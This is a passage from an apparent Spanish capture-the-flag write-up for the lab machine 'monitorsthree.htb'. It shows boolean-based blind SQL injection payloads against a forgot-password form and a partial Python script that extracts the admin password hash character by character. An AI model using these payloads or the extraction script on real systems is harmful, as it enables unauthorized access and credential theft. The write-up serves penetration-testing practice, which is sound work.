 ![Write-up Image](images/Screenshot_5.png)

Por detrás se tiene 9 columnas en la tabla de usuarios quiero pensar.

Después de estar con `sqlmap` un rato, iba demasiado lento, así que voy a scriptear el SQLi.

Si probamos con esta query.
`' or username=(select username from users where username like 'z%')-- -`

Nos devuelve un mensaje de error, pero si probamos con 
`' or username=(select username from users where username like 'a%')-- -`

Nos devuelve un estado válido.

Como ya sabía que hay un usuario `admin` directamente fui a dumpear su hash con este script (comprobé previamente que existía el campo `password`).

```python
import requests
import string

URL = "http://monitorsthree.htb/forgot_password.php"

def do_request(payload):
    sqli_payload = "' or username=(select username from users where password like '<REPLACE>%')-- -"
    r = requests.post(URL, data={'username': sqli_payload.replace("<REPLACE>", payload)})
    if 'Successfully' in r.text:  # Ajusta esto según la respuesta que indique un éxito
        return True
    return False

def sqli():
    characters = string.ascii_uppercase + string.ascii_lowercase + string.digits
    found = ""
    
    while True:
        for char in characters:
            payload = found + char
            print(f"Trying payload: {payload}")  # Opcional: para ver qué se está probando
            if do_request(payload):
                found += char
```